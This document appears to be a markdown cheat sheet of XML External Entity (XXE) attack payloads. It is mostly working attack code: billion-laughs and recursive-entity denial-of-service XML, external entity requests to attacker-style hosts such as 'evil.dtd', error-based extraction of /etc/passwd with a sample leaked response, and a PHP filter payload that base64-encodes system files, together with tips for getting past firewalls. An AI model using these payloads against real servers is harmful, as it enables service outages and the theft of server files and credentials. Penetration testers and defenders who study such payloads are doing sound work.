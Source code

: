 # Payloads:

#### Simple Example

```
<?xml version="1.0"?>
<!DOCTYPE example SYSTEM "example.dtd" [
  <!ENTITY xml "Extensible Markup Language">
]>
<example> &xml; </example>
```

#### DOS

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE lolz [
  <!ENTITY lol "lol">
  <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
  <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
  <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
  <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
  <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
  <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
  <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
  <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
  <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>

<?xml version="1.0"?>
<!DOCTYPE kaboom [
  <!ENTITY a "aaaaaaaaaaaaaaaaaa...">
]>
<boom>&a;&a;&a;&a;&a;&a;&a;&a;&a;...</boom>

<?xml version="1.0"?>
<!DOCTYPE lolz [
  <!ENTITY lol1 "&lol2;">
  <!ENTITY lol2 "&lol1;">
]>
<lolz>&lol1;</lolz>

<?xml version="1.0" ?>
<!DOCTYPE r [
  <!ELEMENT root ANY >
  <!ENTITY external SYSTEM "file:///dev/urandom">  <!-- or /dev/random -->
]>
<root>&external;</root>
```

#### General Entity External Request Test

```
<?xml version="1.0" ?>
<!DOCTYPE r [
  <!ELEMENT root ANY >
  <!ENTITY external SYSTEM "http://x.x.x.x:443/test.txt">
]>
<root>&external;</root>
```

#### Parameter Entity External Request Test

```
# Ref: https://github.com/lsh123/xmlsec/issues/43
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
  <!ENTITY % external SYSTEM "http://192.168.3.1/evil.dtd"> %external;
]>
```

### Extraction via Error Response

In the case where the web server displays an error, try to dump contents using the error response:

```
# Ref: https://blog.netspi.com/forcing-xxe-reflection-server-error-messages/
<!ENTITY % payload SYSTEM "file:///etc/passwd">
<!ENTITY % param1 '<!ENTITY % external SYSTEM "file:///nothere/%payload;">'> %param1; %external;

# Example response
<?xml version="1.0" encoding="UTF-8"?><root>
<errors>
<errorMessage>java.io.FileNotFoundException: file:///nothere/root:x:0:0:root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
```

### PHP Exfil via base64

```
# Ref: http://www.informit.com/articles/article.aspx?p=24992&seqNum=5
<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd" >
```

# Caveats / Gotchas

* Sometimes servers are behind firewalls, so send requests on port 80 by default [1]
* Linefeeds & special characters get in the way, request:
  * `/etc/hostname` [1]
* Load balancers can send different responses [1]

# Useful Links:

* Simple server: `python -m SimpleHTTPServer 8080`
* Definitions:
  * [DTD Overview](http://www.informit.com/articles/article.aspx?p=24992&seqNum=5)
  * [General Entity & Parameter Entity Declarations](http://xmlwriter.net/xml_guide/entity_declaration.shtml)
  * [Attack Overview](https://www.owasp.org/images/5/58/XML_Based_Attacks_-_OWASP.pdf)
  * [Compendium of Known Techniques](https://www.vsecurity.com/download/papers/XMLDTDEntityAttacks.pdf) - details of platform impelementations
  * [Basic how to white paper](https://media.blackhat.com/eu-13/briefings/Osipov/bh-eu-13-XML-data-osipov-wp.pdf)

* Payloads:
  * [20+ DTD Cheat Sheet payloads](https://web-in-security.blogspot.ca/2016/03/xxe-cheat-sheet.html)
  * [~10 XXE Payloads](https://gist.github.com/staaldraad/01415b990939494879b4)

# Future Research:

* TODO:
  * dump info from this document: https://web-in-security.blogspot.ca/2016/03/xxe-cheat-sheet.html
  * Investigate: https://github.com/enjoiz/XXEinjector
* SSRF - Server Side Request Forgery
* XML Schema Poisoning
* Schema SSRF
* XPath Injection
* NDATA - how does this work?
* Modify Content-Type header: `Content-Type: application/xml`
* Notation -> http://www.informit.com/articles/article.aspx?p=24992&seqNum=5

# References

* [1](https://web-in-security.blogspot.ca/2014/11/detecting-and-exploiting-xxe-in-saml.html)
